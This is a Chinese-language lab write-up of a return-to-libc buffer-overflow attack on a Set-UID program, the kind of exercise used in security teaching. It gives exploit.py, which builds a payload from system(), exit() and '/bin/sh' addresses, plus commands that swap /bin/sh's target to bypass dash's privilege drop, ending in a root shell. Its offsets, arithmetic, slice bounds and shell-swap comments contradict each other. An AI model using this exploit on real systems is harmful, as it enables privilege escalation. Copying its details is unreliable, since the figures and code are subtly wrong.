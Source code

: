 最后运行的结果如下所示，因此 buffer 的起始地址为 0xffffcec8，%ebp 寄存器的值为 0xffffcf38，两者之差为 116。因此位置 1、2、3 的偏移量是 128、124、120。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
0xffffced4 0xffffcf48
system: 0xf7dc4cd0 exit: 0xf7db71f0
段错误
```

接下来获取 32 位的 **`system()`** 函数和 **`exit()`** 函数的地址分别为：0xf7dc4cd0、0xf7db71f0。再次使用 **`gcc envaddr.c -o env22 -m32`** 命令编译运行 envaddr.c 文件中的代码，程序名称为 env22 是因为环境变量的地址会受到程序名称长度的影响，因此需要将其控制和 stack 名称长度保持一致，运行可以得到 /bin/sh 字符串的地址：**`0xffffd3a9`**。因此可以编写如下的 exploit.py 文件，构建恶意代码：

```python{.line-numbers}
import sys

# 给 content 填上非零值
content = bytearray(0xaa for i in range(300))
# /bin/sh 的地址
a3 = 0xffffd3a9
content[124:127] = (a3).to_bytes(4, byteorder='little')
# exit() 函数的地址
a2 = 0xf7db71f0
content[120:124] = (a2).to_bytes(4, byteorder='little')
# system() 函数的地址
a1 = 0xf7dc4cd0
content[116:120] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

前面提到，在虚拟机中，**`/bin/sh`** 实际上是一个指向 **`/bin/dash`** 的链接文件，它实现了一个保护机制: **当它发现自己在一个 Set-UID 的进程中运行时，会立刻把有效用户 ID 变成实际用户 ID，主动放弃特权，因此得不到 root shell**。为了达到实验的目的，需要我们使用一个没有实现该保护机制的 shell，即 zsh 的 shell 程序，只要把 **`/bin/sh`** 指向这个 shell 程序即可。命令如下：

```shell{.line-numbers}
# 让 /bin/sh 指向 /bin/dash
monica@xvm:~/csapp/chapter3$ sudo ln -sf /bin/dash /bin/sh
# 实验结束后恢复
monica@xvm:~/csapp/chapter3$ sudo ln -sf /bin/zsh /bin/sh
```

在上述步骤完成之后，实验运行的结果如下所示，获取到了 root shell 权限。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
Value:    /bin/sh
Address:  ffffd3a9
0xffffced4 ffffcf48
system: 0xf7dc4cd0 exit: 0xf7db71f0
# 
```

